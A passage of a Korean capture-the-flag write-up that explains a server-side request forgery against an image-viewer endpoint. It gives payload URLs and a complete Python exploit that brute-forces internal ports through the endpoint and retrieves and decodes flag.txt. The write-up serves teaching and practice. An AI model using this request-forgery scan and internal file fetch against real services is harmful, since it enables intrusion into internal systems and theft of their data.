 4. `/img_viewer`에 찾아낸 주소의 `flag.txt`를 요청한다.

5. 반환된 값은 `base64`로 인코딩, `utf8`로 디코딩 된 값임을 유의하여 역순으로 `flag.txt`의 평문을 찾아낸다.

---

### 4. Payload

```python
f"http://Localhost:{port}"
```
위 코드를 1500번부터 1800번까지 `Brute Force` 공격으로 접근 가능한 주소를 찾는다.
```python
f"http://Localhost:{internal_port}/flag.txt"
```
찾아낸 포트 번호로 위의 요청을 `img_viewer`에 요청한다.

---

### 5. Exploit

1. exploit_adv.py
```python
#!/usr/bin/python3
import requests
from bs4 import BeautifulSoup
import base64
import sys
from tqdm import tqdm

# `src` value of "NOT FOUND X"
NOTFOUND_IMG = "iVBORw0KG"

def send_img(img_url):
    global chall_url
    data = {
        "url": img_url,
    }
    response = requests.post(chall_url, data=data)
    return response.text
    
    
def find_port():
    for port in tqdm(range(1500, 1801)):
        img_url = f"http://Localhost:{port}"
        if NOTFOUND_IMG not in send_img(img_url):
            print(f"Internal port number is: {port}")
            break
    return port
    
    
if __name__ == "__main__":
    chall_url = f"{sys.argv[1]}/img_viewer"
    internal_port = find_port()
    res = BeautifulSoup(send_img(f"http://Localhost:{internal_port}/flag.txt"), 'html.parser')
    print(base64.b64decode(res.find("img")["src"].split()[1]))
```
실행 파일의 파라미터로 받은 URL에 `/img_viewer`를 붙인 값을 `chall_url`에 저장한다.  
이후 열린 포트 번호를 찾기 위해 `find_port()`를 수행하여 `Brute Force` 공격을 수행한다.  
찾은 포트로 `flag.txt`를 반환하는 요청을 수행한다.  
`base64`의 `b64decode`의 리턴값은 `b'{value}'`의 형식을 취한다는 점에 유의하자.
(`NOTFOUND_IMG = "iVBORw0KG"`의 대입값은 `base64`로 인코딩 된 값으로 `PNG`를 나타낸다.  
즉, 요청한 값은 `flask` 이외의 서비스 포트 서버임으로 `PNG`가 출력되면 안된다. `PNG`가 출력되었다는 것은 `exceoption`이 발생하여 웹 서비스의 `error.png`가 출력되었음을 의미한다.)
